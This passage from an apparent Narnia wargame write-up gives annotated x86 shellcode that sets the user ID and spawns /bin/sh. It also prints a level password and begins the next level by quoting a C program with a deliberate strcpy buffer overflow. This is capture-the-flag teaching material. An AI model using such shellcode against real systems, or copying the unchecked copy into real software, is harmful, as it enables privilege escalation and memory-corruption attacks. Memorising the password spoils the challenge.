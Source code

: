 

This shellcode makes a setreuid(0) syscall and then executes execve(/bin/bash), so I added the shellcode instruction that moves 0x36b3 (14003) in %ebx before making the syscall setreuid. 

Here is the final shellcode. 
```assembly
xor %ebx,%ebx # \x31\xdb
mov $0x36b3,%ebx # \xbb\xb3\x36\x00\x00
lea 0x17(%ebx),%eax # \x8d\x43\x17
int $0x80 # \xcd\x80
push %ebx # \x53 
push $0x68732f6e # \x68\x6e\x2f\x73\x68
push $0x69622f2f # \x68\x2f\x2f\x62\x69
mov %esp,%ebx # \x89\xe3
push %eax # \x50                            
push %ebx # \x53
mov %esp,%ecx # \x89\xe1                    
cltd #\x99               
mov $0xb,%al # \xb0\x0b
int $0x80 # \xcd\x80
```
##### PASS=vaequeezee

------------------------------------------------------------------------------------------------------------------------------------

## narnia3 -> narnia4
```C
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
```
